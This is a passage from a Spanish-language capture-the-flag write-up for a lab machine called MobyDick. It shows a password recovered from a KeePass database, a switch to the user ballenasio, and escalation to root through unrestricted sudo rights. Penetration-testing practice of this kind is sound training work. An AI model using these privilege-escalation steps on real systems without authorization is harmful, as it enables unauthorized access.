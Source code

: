 Vamos a probar si esta contraseña funciona con la base de datos de **KeePass** que encontramos antes:

<p align="center">
<img src="/assets/images/THL-writeup-mobydick/Captura6.png">
</p>

Tenemos la contraseña del **usuario ballenasio**.

Vamos a probarla:
```bash
pinguinito@ballenasio:~$ su ballenasio
Password: 
ballenasio@ballenasio:/home/pinguinito$ whoami
ballenasio
```

Genial, y si revisamos los privilegios de este usuario, resulta que tiene todos:
```bash
ballenasio@ballenasio:~$ sudo -l
[sudo] password for ballenasio: 
Matching Defaults entries for ballenasio on ballenasio:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty
.
User ballenasio may run the following commands on ballenasio:
    (ALL : ALL) ALL
```

Entonces, podemos convertirnos en **Root**:
```bash
ballenasio@ballenasio:~$ sudo su
root@ballenasio:/home/ballenasio# whoami
root
```
